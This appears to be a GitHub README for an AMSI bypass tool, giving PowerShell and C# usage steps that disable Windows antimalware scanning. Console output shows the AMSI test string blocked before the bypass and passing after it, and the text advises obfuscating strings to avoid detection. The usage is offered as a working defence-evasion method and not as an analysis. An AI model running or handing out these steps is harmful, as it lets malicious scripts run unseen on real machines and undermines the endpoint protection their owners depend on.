 # AmsiScanBufferBypass

## Usage
### PowerShell

`ASBBypass.ps1` works for both x86 and x64 PowerShell.  Before use, I recommend obfuscating strings such as `Win32` to something random.

```
PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
At line:1 char:1
+ Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS > .\ASBBypass.ps1

PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify
that the path is correct and try again.
At line:1 char:1
+ AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (AMSI:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

### C#

Can be compiled to a DLL and loaded via reflection, or included in a larger .NET Assembly (e.g. [SharpSploit](https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/Evasion/Amsi.cs)).

```
PS > [System.Reflection.Assembly]::LoadFile("D:\Tools\ASBBypass\ASBBypass\bin\Release\ASBBypass.dll")

GAC    Version        Location
---    -------        --------
False  v4.0.30319     D:\Tools\ASBBypass\ASBBypass\bin\Release\ASBBypass.dll


PS C:\Users\Daniel> [Amsi]::Bypass()
PS C:\Users\Daniel> Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (AMSI:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

Also works with `Assembly.Load` in .NET 4.8.

{{< figure src="Image1.png" >}}
{{< figure src="Image2.png" >}}